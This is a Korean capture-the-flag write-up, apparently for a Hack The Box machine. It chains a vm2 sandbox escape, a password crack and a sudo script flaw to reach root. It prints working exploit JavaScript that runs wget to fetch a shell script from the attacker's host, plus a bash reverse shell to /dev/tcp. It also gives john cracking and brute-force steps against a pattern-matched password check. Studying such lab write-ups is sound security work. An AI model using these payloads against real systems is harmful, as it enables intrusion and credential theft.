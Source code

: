 ### 초기
- Node.js code를 온라인에서 실행하는 샌드 박스 프로그램이 있는 것을 확인
- 해당 웹 서버에는 제한 사항이 있음(사용 불가 기능)
  - fs
  - 자식 프로세스

- 3.9.16 이하 버전 vm2 취약점이 있는 것을 알 수 있었다.
- 순서
  - 에러 객체에 오버라이딩 함
  - 에러를 발생시켜 오버라이딩한 내용을 실행
  - access objects created outside the sandbox and execute arbitrary code
<br>
- 해당 코드를 사용하여 실행한다.
```
const {VM}=require("vm2");
const vm=new VM();

const code=`
const customInspectSymbol=Symbol.for('nodejs.util.inspect.custom');

obj={

[customInspectSymbol]: (depth, opt, inspect)=>{
inspect.constructor('return process')().mainModule.require('child_process').execSync('wget <내 ip>:80/shell.sh');
}, valueOf: undefined,
constructor: undefined,
}
WebAssembly.compileStreaming(obj).catch(()=>{});
`;
vm.run(code);
```
- execSync('')안에 실행할 코드를 넣는다.
- python3 -m http.server 80 실행 후 wget http://10.10.14.33:80/shell.sh 를 넣어 쉘을 다운로드 시킨다.

### shell.sh에
### #!/bin/bash
### sh -i >& /dev/tcp/10.10.14.33/4444 0>&1 를 넣고 원격으로 실행 시킨다.
- chmod +x shell.sh, ./shell.sh 를 순서대로 넣어 reverse shell을 획득한다.

- 내부에서 얻은 결과
  - joshua 폴더로 이동할 수 없었다.
  - /var/www/contact/tickets.db 파일에서 pw 해시 값을 얻을 수 있었다.
- john pw.txt --wordlist=/usr/share/wordlists/rockyou.txt로 비밀번호 크랙을 시도한다.
- spongebob1 값을 찾았고 이를 사용하여 ssh joshua@10.10.11.239로 접속을 시도한다.
<br>
### ssh로 연결 한 후
- sudo -l로 sudo 권한으로 실행할 수 있는 파일인 mysql-backup.sh를 찾을 수 있다.
  - mysql-backup.sh: mysql 백업 스크립트
  - sudo -l: 시스템의 현재 사용자 또는 지정된 사용자에게 부여 된 권한을 나열
- mysql-backup.sh
  - 스크립트 파일안에 pw를 검증하는 코드가 있는데 DB_PASS==USER_PASS에서 USER_PASS가 " " 안에 없을 경우 문자열로 인식하지 않고 pattern matching을 사용한다
  - 한 글자씩 비교하고 정규표현식으로 *를 넣어 패스워드를 비교한다
  - crack1.py를 만들고 python3 crack1.py로 실행하여 pw를 찾는다
  - 찾은 pw로 su root를 실행하여 root.txt를 찾는다
<br>
### 결론
- nodejs 코드 실행기에서 샌드박스 이스케이프를 활용하여 코드를 실행
- 취약한 mysql 백업 스크립트에서 root 패스워드 탈취
- bash에서 실행되는 db.sh이므로 brute force에 취약했음
- 웹 앱, db, 스크립트 광범위한 분야에서 보호해야 한다
